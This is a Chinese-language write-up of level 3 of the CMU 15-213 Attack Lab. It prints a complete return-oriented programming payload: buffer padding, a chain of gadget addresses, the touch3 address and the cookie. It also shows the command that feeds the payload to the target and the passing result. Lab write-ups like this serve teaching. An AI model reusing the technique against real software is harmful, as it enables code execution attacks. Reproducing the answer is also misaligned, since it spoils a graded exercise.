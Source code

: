 通过查找farm可以得到最终的字符串为：

```0
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 # getbuf栈的40字节
ad 1a 40 00 00 00 00 00 # movq %rsp, %rax # 0x401aab + 0x2
c5 19 40 00 00 00 00 00 # movq %rax, %rdi # 0x4019c3 + 0x2
cc 19 40 00 00 00 00 00 # popq %rax       # 0x4019ca + 0x2
48 00 00 00 00 00 00 00 # cookie的偏移量0x48
20 1a 40 00 00 00 00 00 # movl %eax, %edx # 0x401a1e + 0x2
34 1a 40 00 00 00 00 00 # movl %edx, %ecx # 0x401a33 + 0x1
27 1a 40 00 00 00 00 00 # movl %ecx, %esi # 0x401a25 + 0x2
d6 19 40 00 00 00 00 00 # lea    (%rdi,%rsi,1),%rax
c5 19 40 00 00 00 00 00 # movq %rax, %rdi # 0x4019c3 + 0x2
fa 18 40 00 00 00 00 00 # touch3的起始位置
35 39 62 39 39 37 66 61 # cookie的assci码表示
```
保存为rtouch3.txt，并执行`./hex2raw < rtouch3.txt | ./rtarget -q`
得到返回结果
```0
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 CC 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 20 1A 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 27 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61
```
实验五需要注意的是在选择farm的区间时，需要避免指令产生干扰

类似于

```0
0000000000401a47 <addval_201>:
  401a47:	8d 87 48 89 e0 c7    	lea    -0x381f76b8(%rdi),%eax
  401a4d:	c3                   	ret
```
中的48 89 e0后的c7就会产生干扰，应选择实验文档figure3的不会产生干扰的代码